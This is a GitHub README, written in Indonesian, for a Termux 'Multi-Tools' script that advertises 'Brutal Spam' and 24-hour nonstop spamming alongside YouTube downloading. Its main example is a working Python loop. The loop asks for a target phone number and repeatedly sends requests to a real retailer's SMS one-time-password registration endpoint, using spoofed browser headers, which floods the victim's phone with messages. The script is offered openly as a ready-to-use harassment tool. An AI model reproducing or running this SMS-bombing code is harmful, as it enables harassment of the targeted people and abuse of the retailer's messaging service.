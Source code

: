 # Multi-Tools
Multi Tools Script
Made With Executed Team 💗 Ammar Executed & SanzzXD

<details open>
  <summary><strong> Install Package + Run Script (Multi-Tools)</strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python python2
  git clone https://github.com/ExecutedTeam/Multi-Tools
  cd Multi-Tools
  bash install.sh
  python sw-spm.py
  ```
  </details>

<details open>
  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash
  Example:
  import os,sys,time,requests,json
  abc=input("Nomor Target:")
  while True:
        print (abc)
        # Tambah time.sleep(5) (Jika Ingin Delay)
  ```
  </details>

#### KELEBIHAN 📍
| Kelebihan | Check |
|--------|--------|
| **24 jam non stop** |[✔️](https://github.com/AmmarrBN) |
| **Ytmp4 DL** |[✔️](https://github.com/AmmarrBN) |
| **Ytmp3 DL** |[✔️](https://github.com/AmmarrBN) |
| **Brutal Spam** |[✔️](https://github.com/AmmarrBN) |
| **Simple** |[✔️](https://github.com/AmmarrBN) |
| **Subscribe** |[Here](https://youtube.com/channel/UCyyIDnXYJlRI_-2pAQqKr0g) |
---------

<details open>
  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash
  import os,sys,time,requests,json
  nomor=input("Nomor Target:")
  while True:
        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text
        time.sleep(10) # Waktu Delay Bisa Atur Sendiri
  ```
  </details>


  ```bash
  Token : [ https://carapedi.id/dSAh0yJ ]
  ```


> SUBSCRIBE MY CHANNEL >_<

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/UCyyIDnXYJlRI_-2pAQqKr0g)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/UCyyIDnXYJlRI_-2pAQqKr0g)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=SanzzXD&color=green)](https://youtube.com/channel/UCel8C59vmVfh54VXRF3BZ7Q)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=SanzzXD&color=green)](https://youtube.com/channel/UCel8C59vmVfh54VXRF3BZ7Q)
